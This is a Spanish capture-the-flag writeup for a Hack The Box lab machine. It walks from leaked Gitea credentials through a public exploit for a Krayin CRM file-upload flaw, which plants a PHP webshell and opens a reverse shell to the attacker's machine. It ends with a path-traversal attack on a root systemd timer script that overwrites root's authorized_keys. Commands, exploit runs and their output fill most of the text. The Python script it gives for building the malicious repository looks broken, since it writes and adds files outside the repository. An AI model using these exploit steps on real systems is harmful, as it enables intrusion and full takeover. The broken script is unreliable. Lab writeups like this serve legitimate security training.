



# Writeup: Nexus (Hack The Box — Retirada)

Nexus es una máquina **Facil** que simula un entorno corporativo con múltiples servicios expuestos: un CRM (Krayin), un repositorio Gitea y un panel de administración. El recorrido comienza con la enumeración de subdominios y la explotación de una vulnerabilidad crítica de subida de archivos en Krayin CRM, seguido de una escalada de privilegios mediante el abuso de un timer systemd y un script vulnerable a path traversal.


## Fase 1: Reconocimiento

Lanzamos un escaneo completo de puertos con Nmap:

```bash
sudo nmap -sS --min-rate 500 -p- -n -Pn 10.129.42.101 -oG allPorts
```

El escaneo reveló dos puertos abiertos:

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Realizamos un escaneo de servicios y versiones:

```bash
nmap -sVC -p 22,80 10.129.42.101 -oN targeted
```

**Resultado:**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
```

La página web alojada en el puerto 80 reveló el dominio **`nexus.htb`**. Lo añadimos a `/etc/hosts`:

```bash
echo "10.129.42.101 nexus.htb" >> /etc/hosts
```

---

## Fase 2: Enumeración Web

Al explorar el sitio web, encontramos un correo electrónico que nos será útil más adelante:

```
j.matthew@nexus.htb
```



### Enumeración de subdominios

Usamos `ffuf` para descubrir subdominios:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.nexus.htb" -u http://nexus.htb -fs 154
```

Encontramos dos subdominios:

- **`git.nexus.htb`** — Gitea
- **`billing.nexus.htb`** — Panel de administración de Krayin CRM

Los añadimos a `/etc/hosts`:

```bash
echo "10.129.42.101 git.nexus.htb billing.nexus.htb" >> /etc/hosts
```

---

## Fase 3: Enumeración de Gitea

En `git.nexus.htb` encontramos un repositorio llamado **`krayin-docker-setup`**. Al inspeccionarlo, vemos que el proyecto tiene un archivo `.env` expuesto.



### Archivo `.env` expuesto

```env
APP_NAME='Krayin CRM'
APP_ENV=local
APP_KEY=
APP_DEBUG=true
APP_URL=http://billing.nexus.htb
DB_CONNECTION=mysql
DB_HOST=krayin-mysql
DB_PORT=3306
DB_DATABASE=krayin
DB_USERNAME=krayin
DB_PASSWORD=
...
```

### Archivo `docker-compose.yml`

También encontramos el archivo `docker-compose.yml` que revela la configuración del entorno:

```yaml
version: '3.1'

services:
  krayin-app:
    image: webkul/krayin:latest
    ports:
      - "80:80"
    environment:
      APP_URL: http://test.htb
      DB_USERNAME: krayin
      DB_PASSWORD: ${DB_PASSWORD}
    ...

  krayin-mysql:
    image: mysql:8.0
    environment:
      MYSQL_DATABASE: krayin
      MYSQL_USER: krayin
      MYSQL_PASSWORD: ${DB_PASSWORD}
      MYSQL_ROOT_PASSWORD: ${DB_ROOT_PASSWORD}
    ...

  krayin-phpmyadmin:
    image: phpmyadmin:latest
    ports:
      - "8080:80"
    environment:
      PMA_HOST: krayin-mysql
      PMA_USER: krayin
      PMA_PASSWORD: ${DB_PASSWORD}
    ...
```

---

## Fase 4: Enumeración de `billing.nexus.htb`

El subdominio `billing.nexus.htb` aloja un panel de administración de **Krayin CRM**. Con el modo debug activado, pudimos ver las tecnologías utilizadas:

- **Laravel 12.54.1**
- **PHP 8.3.6**



### Análisis de actividad en Gitea

Revisando la actividad pública del usuario `admin`, vemos que realizó cambios en dos commits. Clonamos el repositorio para inspeccionar el historial:

```bash
git clone http://git.nexus.htb/admin/krayin-docker-setup.git
git log
```

El historial muestra dos commits:

```
commit 9b817fa4e073d12fc43952acb09f3067b2f17adf (HEAD -> main)
Author: admin <admin@nexus.htb>
Date:   Thu Apr 23 18:05:22 2026 +0000

    Upload files to "/"

commit 1615c465b74e5d7ad3162873382dd8b3869ca892
Author: admin <admin@nexus.htb>
Date:   Thu Apr 23 18:03:37 2026 +0000

    Upload files to "/"
```

Analizando el diff del commit más reciente:

```bash
git show 9b817fa4e073d12fc43952acb09f3067b2f17adf
```

```diff
diff --git a/.env b/.env
index cb7ccc3..5ae1bb2 100644
--- a/.env
+++ b/.env
@@ -2,7 +2,7 @@ APP_NAME='Krayin CRM'
 APP_ENV=local
 APP_KEY=
 APP_DEBUG=true
-APP_URL=http://nexus.htb
+APP_URL=http://billing.nexus.htb
@@ -15,7 +15,7 @@ DB_HOST=krayin-mysql
 DB_PORT=3306
 DB_DATABASE=krayin
 DB_USERNAME=krayin
-DB_PASSWORD=N27xh!!2ucY04
+DB_PASSWORD=
```

Encontramos una contraseña en texto claro: **`N27xh!!2ucY04`**. La combinamos con el correo que encontramos anteriormente (`j.matthew@nexus.htb`) y logramos acceder al panel de administración.

---

## Fase 5: Explotación — CVE-2026-38526

Tras acceder al dashboard, identificamos que Krayin CRM ejecuta la versión **2.2.0**, que es vulnerable a **CVE-2026-38526**, una falla crítica de subida de archivos arbitrarios que permite Ejecución Remota de Código (RCE) con una puntuación CVSS de **9.9/10**.

### ¿Cómo funciona la vulnerabilidad?

La vulnerabilidad reside en el controlador `TinyMCEController.php` ubicado en `packages/Webkul/Admin/src/Http/Controllers/TinyMCEController.php`, que responde a las solicitudes POST en `/admin/tinymce/upload`.

**Flujo del ataque:**

1. **Falta de validación**: El endpoint no implementa una lista blanca de extensiones permitidas ni valida correctamente el tipo MIME real del archivo.
2. **Almacenamiento accesible**: El sistema acepta cualquier archivo (incluyendo una web shell en PHP) y lo guarda en el directorio público, devolviendo la URL del archivo subido.
3. **Ejecución del código**: Al acceder a la URL del archivo subido, el servidor web interpreta y ejecuta el código PHP malicioso.

### Explotación

Encontramos un PoC público en GitHub:

```bash
git clone https://github.com/pawpic/CVE-2026-38526-POC
```

Primero, confirmamos la vulnerabilidad ejecutando un comando simple:

```bash
python3 exploit.py \
  -u http://billing.nexus.htb \
  -e j.matthew@nexus.htb \
  -p 'N27xh!!2ucY04' \
  -c 'whoami'
```

```bash
[*] Logging in...
[+] CSRF token retrieved: AWm91BLDQgTLVCXsYOuVuhAVEdoUbA...
[+] Login successful
[*] Refreshing CSRF token...
[*] Uploading webshell...
[+] Webshell uploaded: http://billing.nexus.htb/storage/tinymce/221b1d63161d97c49ad7a410682920e2.php
[*] Executing command: whoami
www-data
[+] Exploit finished.
```

El comando `whoami` confirma que somos el usuario **`www-data`**. Ahora, obtenemos una reverse shell:

```bash
python3 exploit.py \
  -u http://billing.nexus.htb \
  -e j.matthew@nexus.htb \
  -p 'N27xh!!2ucY04' \
  --lhost 10.10.17.44 \
  --lport 443
```

```bash
[*] Logging in...
[+] CSRF token retrieved: X4p7p653qP8o0QLQizadAwigx9iUef...
[+] Login successful
[*] Refreshing CSRF token...
[*] Uploading webshell...
[+] Webshell uploaded: http://billing.nexus.htb/storage/tinymce/e36cef095a229fbe02af33d63fa4cb81.php
[*] Preparing reverse shell to 10.10.17.44:443
[!] Make sure your listener is running: nc -lvnp 443
[+] Press Enter when your netcat listener is ready...
[*] Sending encoded reverse shell...
```

En nuestra máquina Kali, recibimos la conexión:

```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.17.44] from (UNKNOWN) [10.129.42.101] 55246
bash: cannot set terminal process group (1427): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nexus:~/krayin/storage/app/public/tinymce$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Tratamiento de la TTY

```bash
www-data@nexus:~/krayin/storage/app/public/tinymce$ script -c bash /dev/null
Script started, output log file is '/dev/null'.
www-data@nexus:~/krayin/storage/app/public/tinymce$ ^Z
zsh: suspended  nc -nlvp 443

stty raw -echo; fg
reset xterm
www-data@nexus:~/krayin/storage/app/public/tinymce$ export TERM=xterm
www-data@nexus:/$ stty rows 14 columns 122
```

---

## Fase 6: Escalada a usuario `jones`

Enumerando el sistema, encontramos un nuevo archivo `.env` en el directorio de la aplicación:

```bash
cat .env
```

```env
APP_NAME="Krayin CRM"
APP_ENV=local
APP_KEY=base64:n4swv+4YcBtCr1OPHBe69GxK06/X1y1vCQU1SIMIC7Q=
APP_DEBUG=true
APP_URL=http://billing.nexus.htb
...
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=krayin
DB_USERNAME=krayin
DB_PASSWORD=y27xb3ha!!74GbR
```

En el sistema existen dos usuarios:

```bash
ls -l /home
total 8
drwxr-x--- 2 git   git   4096 May 12 12:27 git
drwxr-x--- 3 jones jones 4096 May 12 12:26 jones
```

Probamos las credenciales encontradas con el usuario `jones`:

```bash
su jones
Password: y27xb3ha!!74GbR
```

¡Funciona! Somos el usuario `jones`:

```bash
jones@nexus:~$ id
uid=1000(jones) gid=1000(jones) groups=1000(jones),100(users)
jones@nexus:~$ cat user.txt
[REDACTED]
```

Obtenemos la **flag de usuario**.

---

## Fase 7: Escalada a root

Tras enumerar manualmente el sistema, usamos `linpeas.sh` para acelerar el proceso y encontramos un timer systemd interesante:

```bash
systemctl list-timers
```

```bash
NEXT                            LEFT LAST                              PASSED UNIT                           ACTIVATES
Tue 2026-06-30 22:01:40 UTC      27s Tue 2026-06-30 22:00:40 UTC      32s ago gitea-template-sync.timer      gitea-template-sync.service
```

Investigamos el timer y el servicio asociado:

```bash
jones@nexus:~$ systemctl cat gitea-template-sync.timer
```

```ini
# /etc/systemd/system/gitea-template-sync.timer
[Unit]
Description=Run Gitea template sync every minute

[Timer]
OnBootSec=1min
OnUnitActiveSec=1min
Unit=gitea-template-sync.service

[Install]
WantedBy=timers.target
```

```bash
jones@nexus:~$ systemctl cat gitea-template-sync.service
```

```ini
# /etc/systemd/system/gitea-template-sync.service
[Unit]
Description=Sync Gitea templates
After=network-online.target

[Service]
Type=oneshot
User=root
ExecStart=/usr/bin/python3 /etc/gitea/template-sync.py
TimeoutStartSec=50s
```

El servicio se ejecuta como **root** cada minuto y corre el script `/etc/gitea/template-sync.py`. Descargamos el script para analizarlo.

### Análisis del script `template-sync.py`

El script realiza las siguientes funciones:

1. Lee la configuración desde `/etc/gitea/template-sync.conf` y `/opt/forge/app/.env`.
2. Obtiene un token de API de Gitea.
3. Busca repositorios marcados como "template" a través de la API de Gitea.
4. Sincroniza los archivos de los repositorios template a un directorio de staging (`/home/git/template-staging`).

**Vulnerabilidad identificada: Path Traversal**

El script construye la ruta de destino de la siguiente manera:

```python
target = os.path.join(stage_path, filepath)
```

Donde `stage_path` es `/home/git/template-staging` y `filepath` proviene del repositorio Gitea. Si `filepath` contiene `../`, el script puede escribir fuera del directorio esperado, permitiendo **sobrescritura arbitraria de archivos**.

**Ejemplo conceptual:**
- `filepath = ../../../../root/.ssh/authorized_keys`
- El script escribiría en `/root/.ssh/authorized_keys`

### Explotación del path traversal

1. **Generamos un par de claves SSH**:

   ```bash
   ssh-keygen -t rsa -b 4096 -f /tmp/malicious_key -N ""
   chmod 600 /tmp/malicious_key
   ```

2. **Creamos un token de API en Gitea** para el usuario `jones`:

   ```bash
   curl -X POST http://localhost:3000/api/v1/users/jones/tokens \
     -H "Content-Type: application/json" \
     -u 'jones:y27xb3ha!!74GbR' \
     -d '{"name":"exploi","scopes":["write:repository","write:user"]}'
   ```

   ```json
   {"id":3,"name":"exploi","sha1":"33a8c08907621ed74fc8a31ab65c6156c5f480d6","token_last_eight":"c5f480d6","scopes":["write:repository","write:user"],"created_at":"..."}
   ```

   Guardamos el token:

   ```bash
   TOKEN=33a8c08907621ed74fc8a31ab65c6156c5f480d6
   ```

3. **Creamos un repositorio template** llamado `rce`:

   ```bash
   curl -X POST http://localhost:3000/api/v1/user/repos \
     -H "Authorization: token $TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"name":"rce","private":false}'

   curl -X PATCH http://localhost:3000/api/v1/repos/jones/rce \
     -H "Authorization: token $TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"template":true}'
   ```

4. **Creamos un script de construcción** (`/tmp/build.py`) que genera un commit con un archivo que explota el path traversal:

   ```python
   import os
   import subprocess

   # Crear estructura de directorios
   os.makedirs('rce', exist_ok=True)
   os.chdir('rce')

   # Inicializar repositorio
   subprocess.run(['git', 'init'], check=True)

   # Crear archivo malicioso que apunta a authorized_keys
   os.makedirs('../../../../root/.ssh', exist_ok=True)
   with open('../../../../root/.ssh/authorized_keys', 'w') as f:
       f.write('ssh-rsa AAAAB3NzaC1yc2EAAA... jones@nexus\n')

   # Añadir y commitear
   subprocess.run(['git', 'add', '../../../../root/.ssh/authorized_keys'], check=True)
   subprocess.run(['git', 'commit', '-m', 'rce'], check=True)
   ```

   Ejecutamos el script:

   ```bash
   python3 /tmp/build.py
   ```

5. **Subimos el repositorio**:

   ```bash
   cd /tmp/rce
   git remote add origin http://localhost:3000/jones/rce.git
   git push -f origin main
   ```

6. **Verificamos que el timer haya ejecutado el script** y sobrescrito `authorized_keys`:

   ```bash
   tail -f /var/log/template-sync.log
   ```

   ```bash
   [2026-06-30 21:33:38] Template sync starting
   [2026-06-30 21:33:38] Found 1 template repo(s)
   [2026-06-30 21:33:38] Syncing template: jones/rce
   [2026-06-30 21:33:38]   synced: README.md
   [2026-06-30 21:33:38]   synced: ../../../../root/.ssh/authorized_keys
   [2026-06-30 21:33:38] Template sync complete
   ```

   El script sincronizó correctamente el archivo `authorized_keys` en `/root/.ssh/`.

7. **Nos conectamos como root**:

   ```bash
   ssh -i /tmp/malicious_key -o StrictHostKeyChecking=no root@10.129.42.101
   ```

   ```bash
   root@nexus:~# cat /root/root.txt
   [REDACTED]
   ```

¡Obtenemos la **flag de root**!

---

## Conclusión

Nexus es una máquina **Facil** que combina:

1. **Enumeración de subdominios** para descubrir `git.nexus.htb` y `billing.nexus.htb`.
2. **Exposición de credenciales** en un repositorio Gitea y archivos `.env` y `docker-compose.yml`.
3. **Explotación de CVE-2026-38526** en Krayin CRM para obtener una reverse shell como `www-data`.
4. **Reutilización de credenciales** para escalar al usuario `jones`.
5. **Abuso de un timer systemd** y un script vulnerable a path traversal para sobrescribir `authorized_keys` y obtener acceso como root.

---

## Lecciones aprendidas

1. **El software desactualizado es un vector de ataque crítico**  
   La versión 2.2.0 de Krayin CRM contenía una vulnerabilidad crítica (CVE-2026-38526) que ya estaba parchada en versiones posteriores. Mantener las aplicaciones actualizadas con los últimos parches de seguridad reduce drásticamente la superficie de ataque.

2. **Los archivos .env y docker-compose.yml nunca deben estar expuestos**  
   Estos archivos contienen credenciales y configuraciones sensibles. Su exposición en repositorios accesibles facilita el acceso no autorizado.

3. **La reutilización de contraseñas** entre servicios (Gitea, CRM, SSH) permite escalar privilegios de forma sencilla.

4. **Los timers systemd que ejecutan scripts como root** deben ser auditados rigurosamente. Cualquier path traversal en el script puede comprometer todo el sistema.

5. **Las vulnerabilidades de subida de archivos (CWE-434)** siguen siendo un vector crítico en aplicaciones web. Validar extensiones y tipos MIME es fundamental.

6. **El principio de mínimo privilegio** debería aplicarse: los scripts no deberían ejecutarse como root si no es estrictamente necesario.

